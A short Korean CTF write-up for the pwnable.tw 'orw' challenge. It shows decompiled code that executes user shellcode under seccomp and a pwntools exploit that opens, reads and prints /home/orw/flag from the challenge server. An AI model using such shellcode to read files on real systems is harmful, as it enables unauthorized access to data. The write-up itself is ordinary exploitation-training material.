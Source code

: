 ```yaml
---
title: "[pwnable.tw]orw"
date: 2019-11-17
ctf: Pwnable.tw
layout: post
---
```


HITCON-Training에서 풀었었는데 거기서 나온 문제랑 똑같은 문제이다. 

seccomp가 사용되서 open,read,write 빼고 다른 syscall은 사용할 수 없다. 

`/home/orw/flag` 파일을 읽어오면 된다고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  (shellcode)();
  return 0;
}
```

코드를 보면 내가 입력한 shellcode를 실행해준다.

그냥 shellcoding해주면 된다.

>\- stack 최상위에 저 문자열을 넣어준다.
>
>\- esp는 스택의 최상단 데이터를 가르키는 포인터니까 /home/orw/flag를 open()해준다.
>
>\- open()을 실행했으니 fd값이 eax에 담겨있을 것이다. 그리고 esp(/home/orw/flag)를 100바이트만큼 읽어은걸 esp에 저장한다.
>
>\- write() 함수로 stdout으로 esp(읽은 파일의 내용)의 내용을 출력해준다.

```c
from pwn import *
 
p = remote('chall.pwnable.tw',10001)
 
pay = asm(shellcraft.pushstr('/home/orw/flag'))
pay += asm(shellcraft.open('esp',0,0))
pay += asm(shellcraft.read('eax','esp','100'))
pay += asm(shellcraft.write('1','esp','100'))
p.sendlineafter(':',pay)
 
p.interactive()
```